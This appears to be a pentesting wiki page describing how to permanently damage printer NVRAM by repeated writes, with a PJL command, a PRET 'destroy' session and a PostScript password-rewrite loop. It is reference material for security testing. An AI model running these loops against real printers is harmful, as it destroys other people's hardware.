 # Physical Damage

Long-term settings for printers and other embedded devices are stored in non-volatile memory \([NVRAM](https://en.wikipedia.org/wiki/Non-volatile_random-access_memory)\) which is traditionally implemented either as [EEPROM](https://en.wikipedia.org/wiki/EEPROM) or as [flash memory](https://en.wikipedia.org/wiki/Flash_memory). Both components have a limited lifetime. Today, vendors of flash memory guarantee about 100,000 rewrites before any write errors may occur.

## PJL

For a practical test to destroy NVRAM write functionality one can continuously set the long-term value for the number of copies with different values for `X`:

```text
@PJL DEFAULT COPIES=X
```

Usually, before stop allowing writing anymore NVRAM parameters are fixed to the factory default value and all variables could still be changed for the current print job using the `@PJL SET...` command.

Using [PRET](https://github.com/RUB-NDS/PRET):

```text
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> destroy
Warning: This command tries to cause physical damage to the
printer NVRAM. Use at your own risk. Press CTRL+C to abort.
Starting NVRAM write cycle loop in... 10 9 8 7 6 5 4 3 2 1 KABOOM!
Dave, stop. Stop, will you? Stop, Dave. Will you stop, Dave?
[... wait for about 24 hours ...]
I'm afraid. I'm afraid, Dave. Dave, my mind is going...
NVRAM died after 543894 cycles, 18:46:11
```

## PostScript

For PostScript, one needs to find an entry in the currentsystemparams dictionary which survives a reboot \(and therefore must be stored in some kind of NVRAM\). A good candidate would be a PostScript password.  
PostScript can run a script that corrupts its own NVRAM:

```text
/counter 0 def
{ << /Password counter 16 string cvs
     /SystemParamsPassword counter 1 add 16 string cvs
  >> setsystemparams /counter counter 1 add def
} loop
```

**More information about these techniques can be found in** [**http://hacking-printers.net/wiki/index.php/Physical\_damage**](http://hacking-printers.net/wiki/index.php/Physical_damage)\*\*\*\*

